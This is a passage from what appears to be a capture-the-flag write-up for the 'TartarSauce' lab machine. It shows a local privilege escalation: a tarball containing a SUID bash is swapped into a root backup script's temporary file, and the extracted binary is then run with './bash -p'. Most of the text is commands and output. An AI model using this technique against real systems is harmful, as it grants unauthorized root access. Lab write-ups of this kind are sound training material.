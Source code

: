 It is important to have the directory structure in place for the backuperer script.

```
$ tree var  
var
└── www
    └── html
        └── bash

2 directories, 1 file
                                                                                                                                                                   
Create a tar file of the directory tree

```
$ tar -czvf suidbash.tar.gz var/                    
var/
var/www/
var/www/html/
var/www/html/bash
```

Copy the file back to target host.

Next our job is to monitor /var/tmp directory and notice the moment when the backup script starts to run. 

```
numa@TartarSauce:/var/tmp$ ls -al
ls -al
total 13788
drwxrwxrwt 10 root     root         4096 Jan  4 12:46 .
drwxr-xr-x 14 root     root         4096 Feb  9  2018 ..
-rw-r--r--  1 onuma    onuma    13045152 Jan  4 12:46 .7480d8819843ead8df61303f173e6de38d9aaf96
-rw-r--r--  1 onuma    onuma      512014 Jan  4 12:42 suidbash.tar.gz
drwx------  3 root     root         4096 Jan  4 04:52 systemd-private-0819f3c6f0a34abba10efbe040641aeb-systemd-timesyncd.service-lxIG8p
drwx------  3 root     root         4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root     root         4096 May 29  2020 systemd-private-4e3fb5c5d5a044118936f5728368dfc7-systemd-timesyncd.service-SksmwR
drwx------  3 root     root         4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root     root         4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root     root         4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root     root         4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
drwx------  3 root     root         4096 Sep 25  2020 systemd-private-e11430f63fc04ed6bd67ec90687cb00e-systemd-timesyncd.service-PYhxgX
onuma@TartarSauce:/var/tmp$ cp suidbash.tar.gz .7480d8819843ead8df61303f173e6de38d9aaf96
```

After the script executes is extracts the tar to directory 'check' and we have five minutes to execute our suid bash.

```
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -al
ls -al
total 1092
drwxr-xr-x 2 root root    4096 Jan  4 12:08 .
drwxr-xr-x 3 root root    4096 Jan  4 12:07 ..
-rwsr-xr-x 1 root root 1109564 Jan  4 12:08 bash
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./bash -p
./bash -p